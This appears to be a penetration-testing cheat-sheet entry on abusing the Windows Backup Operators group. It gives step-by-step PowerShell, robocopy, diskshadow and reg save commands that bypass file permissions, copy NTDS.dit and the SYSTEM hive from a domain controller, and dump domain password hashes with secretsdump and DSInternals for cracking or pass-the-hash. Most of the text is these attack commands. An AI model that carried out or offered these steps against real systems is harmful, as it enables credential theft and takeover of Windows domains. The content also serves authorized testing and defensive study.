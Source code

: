 ### Technique Name:

Backup Operators
### Summary:

The **Backup Operators** group provides its members with the `SeBackupPrivilege` and `SeRestorePrivilege`. These allow bypassing file and folder ACLs to **read or restore protected data**, even without direct permissions. This capability is extremely valuable for **exfiltrating sensitive files** such as `NTDS.dit`, `SAM`, or application config files. Backup Operators can also **log in locally to Domain Controllers**, making them a dangerous misconfiguration if assigned carelessly.
### Conditions:

- User must be a member of the **Backup Operators** group.    
- `SeBackupPrivilege` and/or `SeRestorePrivilege` must be available (can be checked via `whoami /priv`).
- Scripts like `SeBackupPrivilegeCmdLets.dll` or tools like `robocopy` with `/B` flag may be required.
- Shadow copy may be necessary for locked files like `NTDS.dit`.
### Enumeration:

```powershell
# View current user groups
whoami /groups

# View available privileges
whoami /priv

# Check specifically for SeBackupPrivilege
Get-SeBackupPrivilege
```
### Exploitation:

```powershell
# Enable privilege (if disabled)
Set-SeBackupPrivilege

# Copy protected file with custom cmdlet
Copy-FileSeBackupPrivilege 'C:\Confidential\secret.txt' .\secret.txt

# Or use robocopy (backup mode) to copy locked files
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

To copy `NTDS.dit`:

```text
# Create shadow volume using diskshadow
diskshadow
set context clientaccessible
add volume C: alias cdrive
create
expose %cdrive% E:

# Copy ntds.dit and SYSTEM hive
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\loot\ntds.dit
reg save HKLM\SYSTEM C:\loot\SYSTEM
```
### Post-Exploitation:

- Dump local or domain credentials:

```bash
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

- Extract hashes using PowerShell (DSInternals):

```powershell
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DBPath .\ntds.dit -BootKey $key
```
 
- Use `SAM` + `SYSTEM` hives with `secretsdump.py` for local hash extraction.

- Crack hashes or use Pass-the-Hash (PTH) for lateral movement.
### Examples:

- Read sensitive file without read permission:
   
```powershell
Copy-FileSeBackupPrivilege 'C:\Confidential\Contract.pdf' .\Contract.pdf
```
 
- Dump domain user hashes:
   
```bash
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #Privileged_Groups 